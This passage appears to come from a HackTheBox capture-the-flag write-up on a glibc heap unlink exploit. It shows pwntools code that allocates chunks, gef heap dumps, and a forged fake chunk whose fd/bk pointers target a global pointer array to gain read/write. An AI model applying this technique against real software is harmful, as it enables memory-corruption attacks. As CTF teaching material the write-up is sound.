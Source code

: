 
So, next up, we will allocate chunks, five chunks would be good, of same size:-

```py
log.info("Created 5 chunks of size: 0x88")
allocate(0x88, "A"*0x88)
allocate(0x88, "B"*0x88)
allocate(0x88, "C"*0x88)
allocate(0x88, "D"*0x88)
allocate(0x88, "E"*0x88)
```

Now, we will run the exploit and see the chunks in gdb:-

```asm
0 [08:11:04] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2417
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88

[..snip..]

gef➤  heap chunks
Chunk(addr=0x1945010, size=0x90, flags=PREV_INUSE)
    [0x0000000001945010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x19450a0, size=0x90, flags=PREV_INUSE)
    [0x00000000019450a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x1945130, size=0x90, flags=PREV_INUSE)
    [0x0000000001945130     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x19451c0, size=0x90, flags=PREV_INUSE)
    [0x00000000019451c0     44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44    DDDDDDDDDDDDDDDD]
Chunk(addr=0x1945250, size=0x90, flags=PREV_INUSE)
    [0x0000000001945250     45 45 45 45 45 45 45 45 45 45 45 45 45 45 45 45    EEEEEEEEEEEEEEEE]
Chunk(addr=0x19452e0, size=0x20d30, flags=PREV_INUSE)  ←  top chunk

gef➤  x/10xg 0x6020c0
0x6020c0:	0x0000000001945010	0x00000000019450a0
0x6020d0:	0x0000000001945130	0x00000000019451c0
0x6020e0:	0x0000000001945250	0x0000000000000000

```

Here, we have 5 chunks on the heap with the size `0x90` and then we have a global array having the pointers of the allocated chunk. Our target is to get control of the `0x6020c0` global array, so that we can manipulate the pointers stored within to it to get r/w primitive.

The plan here is to forge a fake chunk, such that we can point the `fd` and `bk` to the global array, this will be done with:-

```py
log.info("Preparing a fake chunk...")
payload = p64(0x0)*2
payload += p64(global_ptr - 0x18)
payload += p64(global_ptr - 0x10)
payload = payload.ljust(0x80, b"X")
payload += p64(0x80)
payload += b"\x90"
log.info("Fake chunk:\n%s" %(hexdump(payload)))
```
